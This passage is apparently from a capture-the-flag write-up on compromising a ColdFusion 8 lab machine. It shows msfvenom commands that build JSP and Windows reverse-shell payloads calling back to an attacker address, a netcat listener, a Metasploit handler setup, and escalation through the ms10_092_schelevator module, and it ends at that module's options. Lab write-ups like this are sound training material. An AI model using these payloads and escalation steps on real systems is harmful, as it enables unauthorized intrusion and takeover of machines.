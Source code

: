 From there, we can upload stuff.

Let's generate a jsp payload with `msfvenom`:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.35 LPORT=4444 -f raw > shella.jsp
```

We listen on our attacking box:

```
nc -nlvvp 4444
```

and we obtain a shell:

http://10.10.10.11:8500/CFIDE/shella.jps

## User-flag

we are "tolis" user, and we can grab user flag.

## Privesc

We want a meterpreter shell, so we generate through `msfvenom`:

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.35 LPORT=4445 -f exe > asd.exe
```

We run listener through `msfconsole`:

```
msf > use exploit/multi/handler
        msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
        payload => windows/meterpreter/reverse_tcp
        msf exploit(handler) > set lhost 10.10.14.35
        msf exploit(handler) > set lport 4445
        run
```

Now we execute our payload:

```
c:\ColdFusion8\wwwroot\CFIDE\asd.exe
```

and we get shell.

We then migrate to `jrunsvc.exe`.

We use local suggester, and we found this path `ms10_092_schelevator`:

```
msf5 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.35        yes       The listen address (an interface may be specified)
   LPORT     4446             yes       The listen port
```
